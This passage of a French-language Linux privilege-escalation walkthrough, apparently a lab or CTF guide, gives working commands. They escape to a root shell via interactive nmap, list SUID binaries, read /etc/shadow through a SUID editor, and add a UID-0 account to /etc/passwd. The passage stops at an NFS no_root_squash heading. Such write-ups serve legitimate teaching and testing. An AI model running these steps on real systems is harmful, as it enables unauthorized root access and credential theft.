 **Objectif :** Obtenir un shell via nmap interactif.

### Sur la machine cible :

```bash
$ sudo nmap --interactive  # Mode interactif de nmap
nmap> !sh                  # Échapper vers un shell
# whoami                   # Vérifier l'UID
```

## 🔐 Phase 5 : SUID Binaries

**Objectif :** Identifier et abuser des binaires avec setuid root.

### Sur la machine cible :

```bash
$ find / -type f -perm -04000 -ls 2>/dev/null  # Lister les SUID
```

Si `nano`, `vim` ou un autre éditeur possède le bit SUID :

```bash
$ /usr/bin/nano /etc/shadow                    # Lire /etc/shadow
```

## 🧬 Phase 6 : Création d’un utilisateur root

**Objectif :** Ajouter un compte root via modification de /etc/passwd.

### Sur ma machine locale :

```bash
$ openssl passwd -1 "MySecurePass"                  # Générer un hash MD5
```

Résultat : `$1$example$HASH...`

### Sur la machine cible :

Ajouter dans `/etc/passwd` :

```text
admin:$1$example$HASH...:0:0:root:/root:/bin/bash
```

Puis :

```bash
$ su admin
# whoami                                          # Doit renvoyer root
```

## 📁 Phase 7 : NFS (no\_root\_squash)

**Objectif :** Exploiter un partage NFS mal configuré pour déposer un binaire SUID.

